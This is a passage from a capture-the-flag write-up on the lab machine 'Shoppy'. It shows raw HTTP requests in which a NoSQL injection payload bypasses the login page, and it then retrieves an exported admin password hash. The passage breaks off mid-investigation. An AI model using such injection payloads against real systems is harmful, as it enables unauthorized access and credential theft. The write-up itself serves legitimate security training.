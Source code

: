 A login page seems promising. A quick inspection of the headers and `<head>` content of the `/login` page doesn’t show anything interesting. I tried some common `admin` login combinations to no avail. Let’s probe for SQL injection. Sending a single quote in the POST form causes the request to timeout:

```jsx
POST /login HTTP/1.1
Host: shoppy.htb
Content-Type: application/x-www-form-urlencoded

username=user'&password=password
```

A couple of SQLi attempts aren’t going anywhere. Each request times out. We can try NoSQL injection and see if get further:

```jsx
POST /login HTTP/1.1
Host: shoppy.htb
Content-Type: application/x-www-form-urlencoded

username=user' || 'foo'='foo&password=password
```

Which returns a cookie and a redirect to the `/admin` page!

```jsx
HTTP/1.1 302 Found
Location: /admin
Set-Cookie: connect.sid=s%3A4AWG2sjZxaoHw_hyygOmNoutwEn73IrI.ZqV4bJjzxmBvj9qQ%2FQCJvTC%2Fjp1ZuN82gVWqILCDg1w; Path=/; HttpOnly

<p>Found. Redirecting to <a href="/admin">/admin</a></p>
```

## Shoppy Admin

Now that we are in the shoppy site, the only visible option for interaction is a “Search for users” button, which gives us a form and makes the following request:

```jsx
GET /admin/search-users?username=admin HTTP/1.1
Host: shoppy.htb
```

This returns a link to view some exported data and brings us to `[http://shoppy.htb/exports/export-search.json](http://shoppy.htb/exports/export-search.json)` with the following content:

```jsx
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"}]
```

I can’t login to the shoppy admin portal with that raw value. At first glance it doesn’t appear like a hash. We’ll file that away for further investigation. I want to know if there are any other users. Since we know there is some sort of NoSQL database backing this, let’s see if we can inject the `username` parameter:
